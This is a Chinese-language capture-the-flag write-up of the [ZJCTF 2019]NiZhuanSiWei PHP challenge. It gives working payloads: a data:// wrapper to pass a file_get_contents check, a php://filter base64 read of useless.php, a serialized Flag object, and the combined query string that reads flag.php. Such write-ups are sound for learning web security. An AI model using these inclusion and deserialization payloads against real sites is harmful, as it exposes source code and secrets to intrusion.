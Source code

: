 ## 基本信息

* 题目名称： [ZJCTF 2019]NiZhuanSiWei
* 题目链接： https://www.nssctf.cn/problem/22
* 考点清单： 反序列化，PHP伪协议,文件包含
* 工具清单： PHP环境,hackbar
* payloads：反序列化

## 一、看到什么

**题目关键信息列表**：

1. `PHP 源代码`: 该题的`PHP`源码，本题的唯一线索。


## 二、想到什么解题思路

1. 源码审计：

   - 我们首先要进入到`if true`里面。
   - 进入之后还不能通过结构块里面的第一个`if`得到结果，它会结束脚本。在不匹配到`flag`的情况下才能进入到`else`中,给了一个`include`，涉及到伪协议
   - 出现了`unserialize()`，还要用到反序列化的知识，所以估计得进入到`useless.php`中查看相关的类。

## 三、尝试过程和结果记录

**代码解读：**

- `if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`，按照题目的意思，设置`$text`。
    - `file_get_contents`函数用于将整个文件读入一个字符串。`file_get_contents()` 函数除了可以打开文件，还可以打开其他类型的资源，例如`URL`地址、网络套接字`Socket`、`php://input`等。
    - `data://`是一种特殊的数据协议，用于在`PHP`中将数据作为`URL`来访问。它允许将数据作为字符串嵌入到`PHP`代码中，或者将数据作为`URL`参数传递。
所以这里需要通过伪协议进行绕过。

    
- `if(preg_match("/flag/",$file))`,这里的`flag`是被过滤掉的，然后题目也提示说不是这个时候，我们不能直接`include (flag.php)`，需要往下看。

- `include($file);  //useless.php `，很明显的提示，让我们进入到`useless.php`中进行查看。使用`php://filter`协议来访问`useless.php`，同时需要对结果进行base64解码。

- 解码后得到的结果可以看出是反序列化的考点。`__tostring()`触发条件就是当一个对象被当作`str`处理 时，例如在`echo`中被用,`index.php`文件中就有`echo`命令。

- 这个`__tostring()`里面的内容包含`file_get_contents()`，并提示结果在`flag.php`，所以直接去读`flag.php`即可。

**尝试过程：**

1. 设置`data://`协议来满足第一个`if`条件。

    ```
    data://协议
    需要allow_url_fopen,allow_url_include均为on

    这是一个输入流执行的协议，它可以向服务器输入数据，而服务器也会执行。常用代码如下：

    http://127.0.0.1/include.php?file=data://text/plain,XXXXX

    text/plain，表示的是文本

    text/plain;base64, 若纯文本没用可用base64编码

    ```
    这里选择纯文本模式`text=data://text/plain,welcome to the zjctf`即可进入if条件中。

2. 使用`php://filter`协议来访问`useless.php`。直接访问`useless.php`是不行的，所以这里使用伪协议进行访问。这个协议一般用来查看源码。

    ```
    一般用法如下

    www.xxx.xxx/?file=php://filter/convert.base64-encode/resource==index.php

    出来的是base64码需要进行解码

    此协议不受allow_url_fopen,allow_url_include配置影响

    ```
    
    这里构造payload,`file=php://filter/convert.base64-encode/resource=useless.php`,可得到`base64`编码的字符串。

    ```
    PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
    ```
3. 通过任一类型的`base64`解码工具即可得到源码，这里提示了`flag.php`，所以目标就是该文件。同时它提供了 `__tostring()`方法，在其作为对象被当作字符串处理时就会触发，在`index.php`中就设置了`echo`指令进行打印输出，所以这个方法会触发。同时它也给了`file_get_contents()`,则直接填入`flag.php`即可。

    ```php
    <?php  

    class Flag{  //flag.php  
        public $file;  
        public function __tostring(){  
            if(isset($this->file)){  
                echo file_get_contents($this->file); 
                echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
            }  
        }  
    }  
    ?>  
    ```
4. 进行序列化，将`file`值设置为`file=flag.php`,进行序列化，即可得到序列化字符串。
    ```php
    $a = new Flag();
    $a->file = 'flag.php';
    echo serialize($a);//O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
    ```
5. 构造完整`payload`，这里要注意的是，关于`useless.php`部分的`payload`发生了更改。它不使用伪协议。伪协议是读取文件内容的，而这里需要加载并执行该文件。
    ```
    ?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
    ```

6. 但是我们依然没有得到最终结果，它提示结果已经很接近了，然后我们查看源码，得到了最终的`flag`。

    ![](images/[ZJCTF%202019]NiZhuanSiWei-payloads.png)

## 四、总结与反思

1. `php`中引发文件包含漏洞的通常是以下四个函数：
    - `Require`
    - `Require_once`
    - `Include`
    - `include_once`
当利用这四个函数来包含文件时，不管文件是什么类型（图片、`txt`等等），都会直接作为`php`文件进行解析。比较常见的还有这些函数：`highlight_file()`、`show_source()`、`readfile()`、`file_get_contents()`、`fopen()`、`file()`

2. `include()`加载文件
    - `include(useless.php)`是标准的文件包含方式，文件中的`PHP`代码会被执行。
    - `include(php://filter/convert.base64-encode/resource=useless.php)` 使用了`PHP`的特殊流`php://filter，将 useless.php`文件的内容`Base64`编码输出，而不是执行代码。它通常用于绕过安全措施、查看文件内容、或测试文件内容而不直接执行。

